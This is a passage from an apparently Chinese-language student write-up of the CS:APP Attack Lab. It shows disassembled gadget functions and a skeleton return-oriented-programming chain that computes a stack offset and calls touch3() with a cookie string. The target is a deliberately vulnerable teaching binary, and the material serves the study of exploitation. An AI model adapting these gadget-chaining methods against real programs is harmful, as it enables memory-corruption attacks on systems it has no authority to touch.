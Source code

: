 ```asm
  401a2b:	c3                   	retq

; mov %edx, %ecx
0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq

; mov %esp, %eax
0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq

; mov %eax, %edx
; testb
0000000000401a40 <addval_487>:
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq

; mov %edx, %ecx
; orb %bl
0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq

; mov %rsp, %rax
; but it can't be used
0000000000401a97 <setval_181>:
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq

; mov %rsp, %rax
0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq

```

我们发现有一个特别的函数`add_xy()`可以直接把`%rdi`和`%rsi`相加，放到`%rax`上；我们还发现有几个寄存器可供我们倒腾：`%ecx`、`%edx`、`%rsi`、`%rdi`、`%rax`。

我们先写出一个骨架：

```asm
; calculate offset
...
; after that, the offset is put in %rax

; put offset into %rsi
mov %eax, %edx
mov %edx, %ecx
mov %ecx, %esi

; main
mov %rsp, %rax
mov %rax, %rdi
add_xy()
mov %rax, %rdi
call touch3()
<cookie string>

```
